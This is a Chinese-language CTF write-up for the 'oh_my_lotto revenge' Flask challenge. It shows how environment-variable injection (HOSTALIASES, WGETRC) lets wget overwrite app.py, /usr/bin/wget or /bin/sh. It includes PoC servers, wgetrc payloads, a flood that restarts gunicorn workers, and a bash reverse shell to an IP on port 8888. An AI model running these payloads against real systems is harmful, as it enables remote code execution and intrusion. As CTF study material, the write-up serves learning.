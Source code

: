 # New

相对于[oh_my_lotto](https://www.huamang.xyz/index.php/archives/152/#h2ZAoFX0WCRWOf64MY)，revenge进行了下面的更改

![image-20220419222428531](https://tuchuang.huamang.xyz/img/image-20220419222428531.png)

![image-20220419222450446](https://tuchuang.huamang.xyz/img/image-20220419222450446.png)

这么做，我们能走的就只有RCE了，而这里唯一能操作的一个地方就是这里，可以操作环境变量

```python
os.environ[lotto_key] = lotto_value
```

这里有几个非预期解，先看看预期解

# Intented writeup

这里可以操控环境变量，那么我们能做的事情就很多了，预期解是操控`HOSTALIASES`修改hosts

因为他的wget是通过域名下载的

```python
os.system('wget --content-disposition -N lotto')
```

我们把伪造的hosts文件通过forecast路由传到服务器，然后修改环境变量把hosts指向`/app/guess/forecast.txt`

剩下的就是如何利用了，可以发现wget的参数是`--content-disposition -N`

对于这个参数的意义，我在谷歌找到了如下定义：他是可以由服务器端决定下载的文件，-N表示文件名不变进行覆盖

![image-20220419232146985](https://tuchuang.huamang.xyz/img/image-20220419232146985.png)、

这样的话，我们就可以操控他下载的文件，去进行覆盖app.py

我查找了这个http头的[语法](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Content-Disposition#%E4%BD%9C%E4%B8%BA%E6%B6%88%E6%81%AF%E4%B8%BB%E4%BD%93%E4%B8%AD%E7%9A%84%E6%B6%88%E6%81%AF%E5%A4%B4)

我们只需要在http头指定app.py即可把恶意的app.py覆盖掉源文件

![image-20220419232610529](https://tuchuang.huamang.xyz/img/image-20220419232610529.png)

这样的话我们就可以编写如下poc

app.py

```
import flask
import os

app = flask.Flask(__name__)
@app.route("/rce")
def rce():
    return str(os.popen('env').read())

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8080)
```

main.py

```
import flask
import os

app = flask.Flask(__name__)
@app.route("/")
def index():
    with open('app.py','rb') as f:
        res = f.read()
    r = flask.make_response(res)
    response.headers['Content-Type'] = 'text/plain'
    response.headers['Content-Disposition'] = 'attachment; filename=app.py'
    return response

if __name__ == "__main__":
    app.run(debug=True,host='0.0.0.0', port=8899)
```

在服务器启动main.py，然后上传伪造hosts文件

```
# hosts
lotto domain
```

然后在lotto页面修改环境变量

```
HOSTALIASES
/app/guess/forecast.txt
```

![image-20220420000125065](https://tuchuang.huamang.xyz/img/image-20220420000125065.png)

然后在服务器添加反代，把8899端口转发到80端口

![image-20220420010655831](https://tuchuang.huamang.xyz/img/image-20220420010655831.png)

可以发现app.py成功被覆盖

![image-20220420011927033](https://tuchuang.huamang.xyz/img/image-20220420011927033.png)

但是发现他还是原来的服务

![image-20220420012154011](https://tuchuang.huamang.xyz/img/image-20220420012154011.png)

是因为服务是gunicorn搭建起来的，他更新py文件以后不会实时更新，而gunicorn有一个`pre-forked worker`机制，当某个worker超时以后，就会让gunicorn重启该worker

[官方文档](https://docs.gunicorn.org/en/stable/design.html)

![image-20220420035052773](https://tuchuang.huamang.xyz/img/image-20220420035052773.png)

我们可以抓包进行爆破服务让他崩溃重启

![image-20220420012722538](https://tuchuang.huamang.xyz/img/image-20220420012722538.png)

崩溃后，成功拿到flag

![image-20220420012625604](https://tuchuang.huamang.xyz/img/image-20220420012625604.png)

预期解至此

# Unintented writeup

非预期解，这里我只知道一直就是利用`WGETRC`，配合`http_proxy`和`output_document`，覆盖本地的wget应用，然后利用wget完成RCE



查[官方文档](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Location.html)可知，wget会找环境变量WGETRC，加载wgetrc文件

![image-20220420015237967](https://tuchuang.huamang.xyz/img/image-20220420015237967.png)

而具体利用wgetrc就是看这篇[官方文档](https://www.gnu.org/software/wget/manual/html_node/Wgetrc-Commands.html)

这样的话，就是通过上传我们构造的wgetrc去进行攻击

这里注意了这几个配置项

```
# 把记录写到file里
output_document = file
		Set the output filename—the same as ‘-O file’.

# 设置HTTP代理
http_proxy = string
Use string as HTTP proxy, instead of the one specified in environment.
```

我在本机测试了一下，设置了http_proxy以后，wget下载的都是代理服务器的文件

通过这个代理服务器，我们可以通过修改代理服务器的东西去修改返回值，然后利用output_document进行覆盖

## 0x01

因为我们只能执行wget，所以我们直接索性覆盖wget

构造如下wgetrc文件

```
output_document = /usr/bin/wget
http_proxy = test.huamang.xyz
https_proxy = test.huamang.xyz
```

在代理服务器开一个80端口的web服务，写着反弹shell的命令

```
#!/bin/bash
bash -c "bash -i < /dev/tcp/10.211.55.4/8888 1<&0 2<&0"
```

![image-20220420021548280](https://tuchuang.huamang.xyz/img/image-20220420021548280.png)

把文件传上去，然后去lotto路由修改`WGETRC`的值为`/app/guess/forecast.txt`

然后触发wget命令，拿到flag

![image-20220420031942691](https://tuchuang.huamang.xyz/img/image-20220420031942691.png)

但是这个方法不够优雅，会覆盖掉wget，让其他选手没有体验感

## 0x02

WGETRC还有一个参数

```
use_askpass=/bin/xxx
```

通过这个参数可以直接执行二进制文件，但是wget下载的文件，是没有x权限的，无法执行

所以我们可以通过覆盖掉/bin/sh后（题目使用的是/usr/bin/），再利用这个参数去执行他

所以具体步骤是：

首先上传如下文件，覆盖掉可以执行文件

```
output_document = /bin/sh
http_proxy = test.huamang.xyz
https_proxy = test.huamang.xyz
```

然后上传use_askpass参数去执行命令

```
use_askpass=/bin/sh
```

成功RCE

![image-20220420034358312](https://tuchuang.huamang.xyz/img/image-20220420034358312.png)



# 总结

这里的预期解， 是想考察对于HOSTALIASES环境变量的理解，通过修改host，把域名指向攻击者服务器，进而下载恶意代码覆盖原文件

也考察了Gunicorn的pre-fork worker机制，可以通过大量访问使其崩溃，从而加载我们覆盖的恶意代码



这里的非预期解，是从wget的配置文件WGETRC去入手的，通过上传恶意构造的wgetrc文件，再修改环境变量去指定到这个配置文件，从而可以随意的修改wget的参数

这里很巧妙的发现有几个参数是：output_document、http_proxy、use_askpass，让我们可以控制wget的结果与去处甚至直接执行二进制文件，造成了漏洞的利用





